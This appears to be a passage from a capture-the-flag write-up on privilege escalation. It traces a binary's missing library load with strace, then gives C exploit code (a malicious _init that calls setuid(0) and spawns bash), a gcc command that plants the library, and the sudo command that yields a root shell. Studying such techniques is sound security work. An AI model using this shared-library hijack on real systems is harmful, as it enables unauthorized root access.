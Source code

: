 The functions attempts to iterate from a region of a memory to the same ragion of memory + 0x22, and it xors the content in those region of memory. I tried to reverse the function but I'm not a big fan of `c` language, so I was not able to obtain the filname of the lirbary running the function. Yeah since you have a xor, most probably to obtain the filename library what you have to do is only run the function with the same inputs and obtain what you want as output. But obtained results did not brough me in the right way.

After a lot of attempts I remembered that debugging programs like `strace` or `ltrace` could have helped me in this situation.

In fact running `strace ./stock` (in local o remotely do not care), and after inserting the password we obtain an important info

```
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

Yes! The binary tries to load a library from the following path `/home/rektsu/.config/libcounter.so`

At this point using the first method from the link https://tbhaxor.com/exploiting-shared-library-misconfigurations/, I created an exploit c file called `exploit.c`


```c
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
}
```

Then, you compile it with the following command

```bash
gcc -shared -fPIC -nostartfiles -o /home/rektsu/.config/libcounter.so exploit.c
```

running

```bash
sudo /usr/bin/stock
```

you obtain a shell with root privileges.